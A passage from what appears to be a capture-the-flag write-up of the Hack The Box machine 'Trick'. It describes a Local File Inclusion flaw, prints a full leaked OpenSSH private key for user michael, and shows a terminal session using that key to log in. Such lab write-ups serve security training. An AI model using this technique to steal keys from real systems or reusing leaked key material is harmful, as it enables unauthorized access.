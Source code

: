 # Exploitation

## Local File Inclusion

PHP code is not showed inside the page but instead is executed, meaning that PHP code can be included:

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%2010.png)

Leaked user’s SSH private key:

![Trick%2041aab3b0eaf94cfcb78db8d45d297196](../../zzz_res/attachments/Trick%2041aab3b0eaf94cfcb78db8d45d297196%2011.png)

Logged in using michael’s SSH key:

```bash
┌──(kali㉿kali)-[~/…/HTB/B2R/Trick/loot]
└─$ echo '-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----' > michael

┌──(kali㉿kali)-[~/…/HTB/B2R/Trick/loot]
└─$ chmod 600 michael; ssh michael@trick.htb -i michael
The authenticity of host 'trick.htb (10.10.11.166)' can't be established.
ED25519 key fingerprint is SHA256:CUKzxire1i5wxTO1zNuBswEtE0u/RyyjZ+v07fOUuYY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'trick.htb' (ED25519) to the list of known hosts.
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul  4 22:35:41 2022 from 10.10.14.128
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```